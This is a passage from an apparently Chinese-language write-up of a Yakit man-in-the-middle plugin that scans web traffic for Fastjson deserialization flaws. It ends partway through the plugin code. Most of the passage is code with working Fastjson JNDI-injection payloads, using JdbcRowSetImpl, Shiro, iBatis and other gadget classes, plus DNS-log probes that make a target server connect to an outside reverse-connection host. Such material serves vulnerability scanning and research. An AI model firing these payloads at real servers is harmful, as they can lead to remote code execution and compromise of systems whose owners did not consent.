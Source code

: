 payload分为三类，大概逻辑是首先使用`Inet4Address`检测，如果存在fastjson，则继续测试jndi利用payload，否则继续测试高版本payload  

mitm模块有5个hook方法，这里使用`mirrorNewWebsitePath`方法，可以保证每个路径只检测一次
而且在`mirrorNewWebsitePath`方法中，可以对响应包做检测，如果是json数据，才开始fastjson漏洞检测。可以有效减少无效发包数量

```Swift
# mitm plugin template

#--------------------------WORKSPACE-----------------------------
__test__ = func() {
    results, err := yakit.GenerateYakitMITMHooksParams("GET", "http://192.168.101.211:26468/")
    if err != nil {
        
        return
    }
    isHttps, url, reqRaw, rspRaw, body = results
    mirrorNewWebsitePath(results...)
}

highVersionPayload = [`{"{{randstr(2)}}":{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"{{params(reverseConnTarget)}}"}}}`,`{"{{randstr(2)}}":{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"{{params(reverseConnTarget)}}"}}`,`{"{{randstr(2)}}":{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"{{params(reverseConnTarget)}}"}}`,`{"{{randstr(2)}}":{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"{{params(reverseConnTarget)}}"}`,`{"{{randstr(2)}}":{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"{{params(reverseConnTarget)}}"}}}`,`{"{{randstr(2)}}":{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"{{params(reverseConnTarget)}}"}}}`]
dnslogPayloads = [`{"{{randstr(2)}}":{"@type":"java.net.InetSocketAddress"{"address":,"val":"{{params(reverseConnTarget)}}"}}}`,`{"{{randstr(2)}}":{"@type":"java.net.Inet4Address","val":"{{params(reverseConnTarget)}}"}}`]
nextPayload = [`{"{{randstr(2)}}":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"{{randstr(2)}}":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"{{params(reverseConnTarget)}}","autoCommit":true}}`,`{"@type":"[com.sun.rowset.JdbcRowSetImpl"[,,,{,,,"dataSourceName":"{{params(reverseConnTarget)}}", "autoCommit":true}`]


fastJsonCount = 0
lock = sync.NewLock()
addTask = func() {
    lock.Lock()
    defer lock.Unlock()

    fastJsonCount++
    yakit_status("FastJSON 检查任务", sprint(fastJsonCount))
}

subTask = func() {
    lock.Lock()
    defer lock.Unlock()

    fastJsonCount--
    if fastJsonCount > 0 {
        yakit_status("FastJSON 检查任务", sprint(fastJsonCount))
    }else{
        yakit_status("FastJSON 检查任务", "暂无执行中")
    }
}

mirrorNewWebsitePath = func(isHttps /*bool*/, url /*string*/, req /*[]byte*/, rsp /*[]byte*/, body /*[]byte*/) {
    addTask()
    defer subTask()
    defer func {
        err = recover()
```